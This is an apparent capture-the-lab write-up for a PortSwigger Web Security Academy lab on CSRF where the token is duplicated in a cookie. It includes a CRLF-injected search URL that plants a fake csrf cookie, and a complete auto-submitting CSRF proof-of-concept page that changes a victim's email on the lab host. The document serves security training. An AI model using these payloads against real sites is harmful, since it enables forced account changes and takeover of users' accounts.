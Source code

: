 ## Lab Description: CSRF where token is duplicated in cookie

![Uploading image.png…]()


## Solution: 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/334a57a4-09dc-43d7-aa2b-0bf998af37ce)

Send the request to Burp Repeater and observe that the value of the csrf body parameter is simply being validated by comparing it with the csrf cookie.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/04c29258-899c-45de-be33-b9bbef88248a)

As soon as an adversary is able to set cookie values, the CSRF-protection can be circumvented entirely.The token may or may not require the proper format, so I just try it out with an arbitrary short value:

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/d97cf252-04bd-47c5-afd5-160a155d3c6d)

Sure enough, the request goes through and the email is updated.

Perform a search, send the resulting request to Burp Repeater, and observe that the search term gets reflected in the Set-Cookie header. Since the search function has no CSRF protection, you can use this to inject cookies into the victim user's browser.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/e2d57ecd-5a8c-46eb-b1a6-f7ddb8ea3998)

Create a URL that uses this vulnerability to inject a fake csrf cookie into the victim's browser:
```
/?search=hii%0d%0aSet-Cookie:%20csrf=test
```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/041204ac-8c79-472d-b485-d39052b876b6)

To create the exploit, I use the CSRF PoC generator of Burp Suite.And remove the auto-submit <script> block and instead add the following code to inject the cookie and submit the form:

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/ca024fb5-f2cb-4ec8-bbce-91a9ebf0c1ad)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/d2d0e62b-a6a8-49d4-823f-d49685b0905c)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
   <script>
      history.pushState('', '', '/');
    </script>
    <form action="https://0a9f005604ed727d817f89b2004d0000.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="go112&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="hello" />
      <input type="submit" value="Submit request" />
    </form>
   <img src="https://0a9f005604ed727d817f89b2004d0000.web-security-academy.net/?search=hii%0d%0aSet-Cookie:%20csrf=hello%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/643021cd-89f8-4f0b-ad85-f1e0bd1d4be2)
